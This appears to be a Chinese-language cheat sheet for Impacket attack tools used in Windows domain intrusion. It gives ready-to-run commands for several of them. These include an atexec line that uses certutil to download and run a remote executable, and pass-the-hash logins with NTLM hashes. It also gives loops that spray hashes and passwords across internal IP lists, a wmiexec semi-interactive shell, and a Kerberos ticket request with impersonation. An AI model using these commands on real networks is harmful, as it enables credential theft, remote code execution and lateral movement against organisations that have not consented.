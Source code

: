   

- atexec.py：此示例通过Task Scheduler服务在目标计算机上执行命令，并返回已执行命令的输出。

  ```bash
  ./atexec.py test/administrator:1234@192.168.124.136 “certutil -urlcache -split -f http://192.168.124.136/1.exe 2.exe”
  
  ./atexec.py -hashes :7ce21f17c0aee7fb9ceba532d0546ad6 test/administrator@192.168.124.136 1.exe
  
  ## hash喷洒攻击
  # 内网机器遍历做hash传递验证,ips.txt内容为内网ip，每段一条
  FOR /F %i in (ips.txt) do atexec.exe -hashes :3dbde697d71690a769204beb12283678 ./administrator@%i whoami
  
  # 指定主机ntlm hash遍历验证，hashes.txt为已知ntlm hash内容，每段一条
  #文件内部的hash格式应该为":nthash"或者"lmhash:nthash",如果只采用nthash切记加一个冒号":"
  FOR /F %i in (hashes.txt) do atexec.exe -hashes %i ./administrator@192.168.23.99 whoami
  
  # 内网机器遍历做密码验证，passwords.txt为已知密码内容，每段一条
  FOR /F %i in (passwords.txt) do atexec.exe ./administrator:%i@192.168.23.99 whoami
  
  # 指定主机密码遍历验证,ips.txt内容为内网ip，每段一条
  FOR /F %i in (ips.txt) do atexec.exe ./administrator:123@%i whoami
  ```

  

- wmiexec.py：通过Windows Management Instrumentation使用的半交互式shell，它不需要在目标服务器上安装任何服务/代理，以管理员身份运行，非常隐蔽。

  ```bash
  # 语法: ./wmiexec.py [[domain/] username [: password] @] [Target IP Address]
  ./wmiexec.py SERVER/Administrator: T00r@192.168.1.140
  
  
  ./wmiexec.py -hashes :7ce21f17c0aee7fb9ceba532d0546ad6 test/administrator@172.16.99.146
  
  ```

  

- dcomexec.py：类似于wmiexec.py的半交互式shell，但使用不同的DCOM端点。目前支持MMC20.Application，ShellWindows和ShellBrowserWindow对象。

- GetTGT.py：指定密码，哈希或aesKey，此脚本将请求TGT并将其保存为ccache

- GetST.py：指定ccache中的密码，哈希，aesKey或TGT，此脚本将请求服务票证并将其保存为ccache。如果该帐户具有约束委派（具有协议转换）权限，您将能够使用-impersonate参数代表另一个用户请求该票证。

  ```bash
  python3 getST.py -dc-ip 172.24.1.99 -spn krbtgt/test.com@test.com test/zhujiayu:123
  
  ```

  

- GetPac.py：此脚本将获得指定目标用户的PAC（权限属性证书）结构，该结构仅具有正常的经过身份验证的用户凭据。它通过混合使用[MS-SFU]的S4USelf +用户到用户Kerberos身份验证组合来实现的。

- GetUserSPNs.py：此示例将尝试查找和获取与普通用户帐户关联的服务主体名称。
